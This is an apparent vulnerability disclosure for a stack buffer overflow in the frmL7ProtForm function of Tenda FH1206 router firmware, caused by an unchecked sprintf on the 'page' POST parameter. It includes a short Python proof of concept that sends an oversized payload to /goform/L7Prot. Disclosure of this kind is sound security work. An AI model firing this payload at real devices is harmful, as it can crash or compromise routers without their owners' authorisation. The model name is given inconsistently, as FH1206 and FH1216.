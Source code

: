 # frmL7ProtForm

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **frmL7ProtForm** function. The function receives the `page` parameter from a POST request. `   sprintf(v15, "firewall_proto_list.asp?page=%s", v10);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v15` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/5544755d-084f-451d-a7fe-33cc028751fe)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/L7Prot"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/766905c2-ed63-4bff-83c1-b9164697775b)
